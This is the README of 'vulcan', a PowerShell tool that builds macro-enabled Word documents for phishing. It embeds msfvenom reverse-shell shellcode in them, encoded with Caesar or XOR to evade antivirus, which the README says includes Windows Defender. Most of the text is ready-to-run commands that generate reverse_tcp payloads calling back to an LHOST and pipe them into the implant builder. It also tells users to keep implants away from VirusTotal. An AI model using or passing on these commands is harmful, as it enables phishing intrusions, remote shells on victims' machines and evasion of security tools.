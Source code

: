 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... NEVER submit any implant to VirusTotal. 🤢

## Features

- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit new templates**.
- Piping of shellcodes allowing for complex transformations in order to evade AVs.
- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit new templates**.
- Work-around `Visual Basic` line-continuation limitations using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone/download `vulcan`:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Import `vulcan`:

    ```powershell
    . .\Invoke-Vulcan.ps1
    ```

3. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above example... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
Get-Content -Path $ShellCode | Invoke-Vulcan ...
```

```powershell
wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a `plain` shellcode:

    ```powershell
    .\Invoke-Vulcan.ps1; wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

- Embed a `Caesar`-encoded shellcode:

    ```powershell
    .\Invoke-Vulcan.ps1; . .\assets\encoders\Caesar.ps1; wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Caesar -Key 5 | `
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\caesar.vba" -Key 5 -Verbose
    ```

- Embed a `XOR`-encoded shellcode:

    ```powershell
    .\Invoke-Vulcan.ps1; . .\assets\encoders\Xor.ps1; wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-XOR -Key "Star&WatchThisRepository" | `
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\xor.vba" -Key "Star&WatchThisRepository" -Verbose
    ```

    > [!WARNING]
    > The length of the key must be shorted than the shellcode.

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above examples... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar (no pun intended 🙄) what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is primarily distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.